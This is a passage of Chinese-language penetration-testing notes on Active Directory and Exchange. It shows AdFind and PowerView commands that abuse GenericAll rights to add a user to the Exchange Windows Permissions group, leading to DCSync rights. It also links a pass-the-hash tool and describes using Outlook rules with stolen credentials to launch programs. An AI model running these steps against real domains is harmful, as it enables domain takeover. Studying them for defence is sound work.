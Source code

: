 **描述**

`Exchange Organization Administrators` 或 `Organization Management` 组对 Exchange Windows Permissions 和 Exchange Trusted Subsystem 组拥有 `GenericAll` 权限，因此，如果获得了 `Organization Management` 组成员的权限，可以将任意账户添加至 `Exchange Windows Permissions` 或 `Exchange Trusted Subsystem` 组，进而继续通过上述方法提权。

```bash
# 查看 Organization Management 对 Exchange Windows Permissions 或 Exchange Trusted Subsystem 有 GenericAll 权限
AdFind.exe -h 192.168.123.123 -b "DC=island,DC=com" -f "|(name=Exchange Windows Permissions)(name=Exchange Trusted Subsystem)" nTSecurityDescriptor -nosacl -sddl+++ -sddlfilter A;;FC;;;"Organization Management" -recmute

# PowerView.ps1
# 通过 Organization Management 组成员将任意用户添加至 Exchange Windows Permissions 或 Exchange Trusted Subsystem
# 当然，也可以将该组成员自身添加至 Exchange Windows Permissions 或 Exchange Trusted Subsystem
# Add-DomainGroupMember 不支持域外指定域控
Add-DomainGroupMember -Identity "Exchange Windows Permissions" -Members "zhangsan" -Verbose
Get-DomainGroupMember -DomainController 192.168.123.123 -Domain island.com -Identity "Exchange Windows Permissions" -Recurse -Verbose
Remove-DomainGroupMember -Identity "Exchange Windows Permissions" -Members "zhangsan" -Verbose

# 之后就跟 Exchange 机器账户利用方式一样，zhangsan 可以给别人添加 Dcsync 权限
```

---

### PTH

- [pentest-tools-public/Pass-to-hash-EWS](https://github.com/pentest-tools-public/Pass-to-hash-EWS)

---

### relay

- [Exchange 中继](../../OS安全/实验/NTLM中继.md#exchange中继)

---

### OUTLOOK 命令执行

OUTLOOK 客户端有一个 规则与通知 的功能，通过该功能可以使 outlook 客户端在指定情况下执行指定的指令。若我们获得某用户的凭证，可以通过此功能设置 “用户收到含指定字符的邮件时 执行指定的指令比如 clac.exe”，当用户登录 outlook 客户端并访问到此邮件时，它的电脑便会执行 calc.exe。

但是，当触发动作为启动应用程序时，只能直接调用可执行程序，如启动一个 exe 程序，但无法为应用程序传递参数，想要直接上线，我们可以将 EXE 放到某共享目录下，或者直接上传到用户的机器。

具体步骤为打开规则与通知功能，然后新建功能，在接收到某条件邮件时启动指定应用程序
- 可参考 : https://tttang.com/archive/1487/#toc_outlook

实战中不太好利用,微软在 2017 年陆续修复了这些攻击面：默认禁止规则启动应用程序和运行脚本；默认禁止自定义表单执行脚本且需要将每一个自定义表单消息类注册为受信任的表单消息类；默认关闭主页功能。

---

## 漏洞
